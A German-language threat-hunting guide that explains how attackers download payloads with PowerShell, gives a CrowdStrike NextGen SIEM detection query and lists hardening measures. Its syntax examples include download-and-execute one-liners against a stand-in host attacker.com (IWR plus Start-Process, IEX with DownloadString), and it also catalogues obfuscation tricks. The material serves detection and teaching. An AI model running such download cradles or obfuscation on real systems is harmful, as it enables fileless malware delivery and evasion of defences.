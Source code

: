 # Powershell Threat Hunting: Downloads erkennen mit NextGen SIEM

## Warum Powershell für Angreifer interessant ist

Powershell ist ein fester Bestandteil moderner Windows-Systeme und bietet durch .NET-Anbindung mächtige Möglichkeiten zur Automatisierung. Diese Eigenschaften machen es auch für Angreifer attraktiv:

- Auf jedem Windows-System vorhanden (kein zusätzlicher Code nötig)
- Direkter Zugriff auf Windows-APIs und Netzwerkressourcen
- Kann Code aus dem Speicher ausführen (fileless execution)
- Oft unzureichend überwacht oder eingeschränkt

**Living off the Land**-Taktiken nutzen Powershell, um Angriffe unauffällig und ohne zusätzliche Tools durchzuführen.

---

## Warum nach Powershell-Downloads suchen?
Powershell wird häufig verwendet, um Dateien oder Skripte aus dem Internet zu laden z. B. zur:

- Nachladung von Schadsoftware 
- Kommunikation mit Command-and-Control-Servern
- Umgehung traditioneller Sicherheitsmaßnahmen 

Einige Gründe für die proaktive Suche nach Powershell-Downloads:

- Früherkennung von Angriffen im Initial Access oder Execution-Phase
- Erkennung von Fileless Malware

---

## Download via Powershell

Angreifer nutzen verschiedene Techniken, um Inhalte via Powershell herunterzuladen. 

### `Invoke-WebRequest` (IWR)
* Funktionalität: Dieses Cmdlet, verfügbar ab Powershell Version 3, fungiert ähnlich wie `wget` oder `curl` unter Linux. Es sendet HTTP-, HTTPS- oder FTP-Anfragen an eine angegebene URL und kann die Antwort verarbeiten oder, mithilfe des Parameters `-OutFile`, direkt in eine Datei speichern. Es unterstützt komplexere Webinteraktionen wie Authentifizierung und benutzerdefinierte Header.
* Anwendungsfälle & Risiken: Legitim für Web-Scraping, Herunterladen von Ressourcen oder Interaktion mit APIs. Wird von Angreifern häufig zum Herunterladen von Payloads verwendet, oft in Kombination mit `-OutFile`, um die Datei auf der Festplatte zu speichern, oder die Ausgabe wird an `Invoke-Expression` (IEX) weitergeleitet, um eine dateilose Ausführung zu erreichen. `Invoke-WebRequest` kann relativ langsam sein und hat eine potenzielle Abhängigkeit von Internet Explorer-Komponenten.
  
* Sytaxbeispiel: 
```powershell
# Einfacher Download
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "C:\Users\Public\payload.exe"

# Oft in Angriffen gesehen (vereinfacht)
# IWR lädt Datei herunter, dann wird sie ausgeführt
Invoke-WebRequest -Uri "http://attacker.com/payload.exe" -OutFile "$env:TEMP\p.exe"; Start-Process "$env:TEMP\p.exe"
```

###  `System.Net.WebClient` (.DownloadFile /.DownloadString)
* Funktionalität: Nutzt die .NET Framework-Klasse `System.Net.WebClient`. Bietet Methoden wie `DownloadFile`, die eine Datei von einer URL herunterlädt und auf der Festplatte speichert, und `DownloadString`, die den Inhalt einer Ressource direkt als Zeichenkette zurückgibt. `DownloadString` wird häufig in Kombination mit `Invoke-Expression` für die dateilose Ausführung von Skripten verwendet.
* Anwendungsfälle & Risiken: Legitim für programmgesteuerte Dateidownloads in Skripten. Wird von Angreifern intensiv missbraucht, sowohl zum Herunterladen ausführbarer Payloads (`DownloadFile`)  als auch zur dateilosen Ausführung (`DownloadString` + `IEX`). Ist mit Server Core kompatibel.   

* Sytaxbeispiel: 
```powershell
# Download in Datei
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://example.com/payload.exe", "C:\Windows\Temp\payload.exe")

# Download String zur Ausführung
$payload = (New-Object System.Net.WebClient).DownloadString("http://attacker.com/malicious.ps1")
Invoke-Expression $payload

# Oft verkürzt / kombiniert:
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/malicious.ps1')
```

### `Start-BitsTransfer`
* Funktionalität: Verwendet den Background Intelligent Transfer Service (BITS), einen Windows-Dienst, der für asynchrone, gedrosselte und wiederaufnehmbare Dateiübertragungen konzipiert ist. Erfordert, dass der BITS-Dienst ausgeführt wird und das BitsTransfer-Modul importiert ist. Gut geeignet für große Dateien oder Hintergrundübertragungen.

* Anwendungsfälle & Risiken: Legitim für große Dateiübertragungen und Updates. Wird seltener für den initialen Zugriff durch Malware verwendet als IWR/WebClient, kann aber von Angreifern genutzt werden, um größere Werkzeuge, Payloads oder gestohlene Daten zu übertragen. Seine asynchrone Natur könnte zur Tarnung genutzt werden. Erfordert den BITS-Dienst; kann fehlschlagen, wenn der Dienst deaktiviert ist oder der Benutzer (abhängig von der Konfiguration) nicht angemeldet ist. 

* Syntaxbeispiel
```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source "[http://example.com/large_payload.zip](http://example.com/large_payload.zip)" -Destination "C:\Temp\large_payload.zip"
# Kann asynchron ausgeführt werden
Start-BitsTransfer -Source "http://..." -Destination "C:\..." -Asynchronous
```

## Verschleierungstechniken (MITRE ATT&CK T1027)
Angreifer verschleiern Powershell-Befehle und -Skripte, um signaturbasierte Erkennungssysteme zu umgehen und die Analyse zu erschweren. Gängige Methoden umfassen:   

* Kodierung: Verwendung von Base64 (`-EncodedCommand`, `-e`, `-ec`), Hexadezimal oder ASCII zur Darstellung von Befehlen oder Skriptblöcken.   
* Zeichenkettenmanipulation: Verketten (`"Down" + "loadString"`), Neuanordnen (`"{1}{0}" -f 'String','Download'`) oder Ersetzen von Zeichen innerhalb von Zeichenketten, um bekannte Muster zu zerlegen.   
* Variablenverschleierung: Verwendung unklarer Variablennamen oder das schrittweise Zusammenbauen von Befehlen in Variablen.   
* Escape-Zeichen: Einsatz von Backticks (`) innerhalb von Zeichenketten oder Befehlen, um die Lesbarkeit zu beeinträchtigen.   
* Zufällige Groß-/Kleinschreibung: Mischen von Groß- und Kleinbuchstaben.   
* Leerraum/Kommentare: Einfügen unnötiger Leerzeichen oder Kommentare.   
* Befehlsaliase: Verwendung von Aliasen wie `IEX` für `Invoke-Expression` oder `IWR` für `Invoke-WebRequest`.   
* Umgebungsvariablen: Verstecken von Teilen des Codes in Umgebungsvariablen.   
* Typnamenverkürzung: Verwendung von `Net.WebClient` anstelle von `System.Net.WebClient`.

Für einige dieser Methoden haben wir eine separate Query erstellt, um gezielt nach Powershell Obfuscation zu suchen. 

## CrowdStrike NextGen SIEM Query
```
#event_simpleName=ProcessRollup2 event_platform=Win
| ImageFileName=/\\(powershell(_ise)?|pwsh)\.exe/i
| CommandLine=/Invoke\-WebRequest|Net\.WebClient|Start\-BitsTransfer/i
| regex("(?<URL>https?://[^'\"]+)", field=CommandLine)
| replace("https://", with="", field=Domain, as=vt_lookup)
| UrlBase:="https://www.virustotal.com/gui/domain/"
| format(format="[Virustotal](%s%s)", field=[UrlBase, vt_lookup], as=DomainLookup)
| table([DomainLookup, URL, ComputerName, UserName, CommandLine], limit=20000)
```

## Powershell Härtung implementieren
* Constrained Language Mode: Wo immer möglich, schränken Sie Powershell auf den Constrained Language Mode ein. Dies begrenzt den Zugriff auf sensible Cmdlets,.NET-Typen und die Ausführung von beliebigem Code, was viele Angriffstechniken erschwert.   
* Just Enough Administration (JEA): Implementieren Sie JEA, um administrative Berechtigungen auf das absolut notwendige Minimum für bestimmte Rollen und Aufgaben zu beschränken. Dies reduziert die Auswirkungen, falls ein privilegiertes Konto kompromittiert wird.   
* Execution Policy: Setzen Sie die Ausführungsrichtlinie mindestens auf RemoteSigned oder AllSigned. Auch wenn dies keine undurchdringliche Sicherheitsbarriere darstellt, zwingt es Angreifer zur Verwendung von Bypass-Methoden (z.B. -ExecutionPolicy Bypass), deren Verwendung wiederum ein detektierbares Signal sein kann. Erzwingen Sie die Signierung für intern entwickelte Skripte.   
* Application Control: Nutzen Sie Lösungen wie AppLocker, um die Ausführung von Powershell-Skripten auf autorisierte Benutzer, Systeme oder signierte Skripte zu beschränken. Das vollständige Blockieren von powershell.exe ist aufgrund seiner legitimen Verwendung und der Möglichkeit, die Engine auch ohne die EXE-Datei zu nutzen, oft nicht praktikabel oder effektiv.   
